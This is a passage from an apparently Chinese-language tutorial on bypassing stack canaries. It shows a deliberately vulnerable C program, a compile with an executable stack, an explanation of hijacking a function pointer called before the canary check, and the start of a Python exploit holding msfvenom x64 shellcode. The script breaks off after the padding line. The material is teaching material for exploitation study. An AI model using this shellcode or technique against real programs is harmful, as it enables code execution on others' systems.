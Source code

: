 ```

Buffer buf_new(bool bShouldRead){
    return (Buffer) {
        .data = { 0 },
        .nSize = 0,
        .write = buf_write,
        .read = ( bShouldRead ) ? buf_read : NULL
    };
}

voidmain(int argc, char **argv){
    Buffer buf = buf_new( (bool)(argc > 1 && strcmp(argv[1], &#34;-r&#34;) == 0) );
    char *cpLine = NULL;
    size_t n = 0;

    printf( &#34;Data: &#34; );
    n = getdelim( (char **)&cpLine, &n, 0x0a, stdin );

    if ( ~n ) // Sanity check to avoid calling `buf_write` if `getdelim` failed
        buf.write( &buf, cpLine, n );

    if ( buf.read )
        buf.read( &buf );
}
```

  
  
这个例子与前一个例子非常相似，不同之处在于这个 Buffer 结构具有额外的成员，这些成员保存指向其关联函数的指针，并且在 buf_new 函数初始化期间，这些函数的地址被分配给结构实例。  
  

```
┌──(user㉿host)-[~]
└─$ gcc -fstack-protector -zexecstack test.c -o test
                                                                                                                                                         
┌──(user㉿host)-[~]
└─$ ./test -r
Data: Hello World!
Your Data :
Hello World!
```

  
  
请注意，read 函数指针在我们的控制之下，我们可以使用 -r 选项触发它。此函数将在金丝雀检查之前调用，使我们能够抢占保护，劫持程序执行流并执行我们自己的代码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXr64KNzCMUMb4TxWSsRmicmENTzQDCarurFjXjn4qbfFn5APoDicXNfSjg/640?wx_fmt=png&from=appmsg "")  
  
正如我们之前所说，我们控制的函数指针在 Canary 之前被调用。我们可以利用它，让它调用我们的 Shellcode。  
  

```
#!/usr/bin/python3

import struct

# msfvenom -a x64 --platform linux -p linux/x64/exec -b &#34;\x0a&#34; -f py AppendExit=true PrependSetuid=true PrependSetgid=true CMD=id
buf = b&#34;&#34;
buf += b&#34;\x48\x31\xff\x6a\x69\x58\x0f\x05\x48\x31\xff\x6a&#34;
buf += b&#34;\x6a\x58\x0f\x05\x48\xb8\x2f\x62\x69\x6e\x2f\x73&#34;
buf += b&#34;\x68\x00\x99\x50\x54\x5f\x52\x66\x68\x2d\x63\x54&#34;
buf += b&#34;\x5e\x52\xe8\x03\x00\x00\x00\x69\x64\x00\x56\x57&#34;
buf += b&#34;\x54\x5e\x6a\x3b\x58\x0f\x05\x48\x31\xff\x6a\x3c&#34;
buf += b&#34;\x58\x0f\x05&#34;

with open(&#34;payload&#34;, &#34;wb&#34;) as f:
    f.write( b&#34;A&#34; * 80 ) # Fills the Buffer 
```